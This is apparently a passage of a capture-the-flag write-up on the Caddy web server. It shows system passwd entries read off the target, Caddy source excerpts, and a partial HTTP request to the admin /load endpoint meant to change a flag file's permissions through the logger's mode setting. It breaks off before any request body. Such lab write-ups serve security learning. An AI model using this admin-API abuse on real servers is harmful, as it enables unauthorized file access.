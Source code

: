 ```http
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
```

If we try to read the flag by accessing `http://[container]/flag.sh`, we will get a 403 error. This is because root can't read the file. We need some way to change the permissions of the file.I cloned the Git repository with the source code of Caddy and searched for `os.Chmod`. The first usage in `caddy/listeners.go`, but it's used only for Unix sockets:

```go
if IsUnixNetwork(na.Network) {
isAbstractUnixSocket := strings.HasPrefix(address, "@")
if !isAbstractUnixSocket {
err = os.Chmod(address, unixFileMode)
if err != nil {
return nil, fmt.Errorf("unable to set permissions (%s) on %s: %v", unixFileMode, address, err)
            }
        }
    }
```

The second usage in `caddy/modules/logging/filewriter.go`, which is used for a logger. We can search for mode in the documentation and get [a description](https://caddyserver.com/docs/json/logging/logs/writer/file/mode/) of the permissions mode of the file. 

```go
file, err := os.OpenFile(fw.Filename, os.O_WRONLY|os.O_APPEND|os.O_CREATE, modeIfCreating)
if err != nil {
return nil, err
    }
info, err := file.Stat()
if roll {
file.Close() // lumberjack will reopen it on its own
    }
// Ensure already existing files have the right mode, since OpenFile will not set the mode in such case.
if configuredMode := os.FileMode(fw.Mode); configuredMode != 0 {
if err != nil {
return nil, fmt.Errorf("unable to stat log file to see if we need to set permissions: %v", err)
        }
// only chmod if the configured mode is different
if info.Mode()&os.ModePerm != configuredMode&os.ModePerm {
if err = os.Chmod(fw.Filename, configuredMode); err != nil {
return nil, err
            }
        }
    }
```

That is what we needed. Let's try to rewrite the mode of the flag.
```http
POST /127.0.0.1:2019/load HTTP/1.1
Host: [container]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Type: application/json
```
